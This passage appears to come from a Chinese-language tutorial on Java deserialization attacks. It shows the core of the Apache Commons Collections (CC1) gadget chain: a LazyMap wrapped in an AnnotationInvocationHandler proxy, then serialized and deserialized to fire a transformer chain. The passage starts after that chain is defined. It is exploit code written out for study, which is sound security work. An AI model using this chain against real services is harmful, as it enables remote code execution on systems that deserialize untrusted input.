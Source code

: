 ```java
        Map LazyMap = org.apache.commons.collections.map.LazyMap.decorate(new HashMap(), chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, LazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(org.apache.commons.collections.map.LazyMap.class.getClassLoader(), org.apache.commons.collections.map.LazyMap.class.getInterfaces(), invocationHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, mapProxy);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/14.png" alt="">
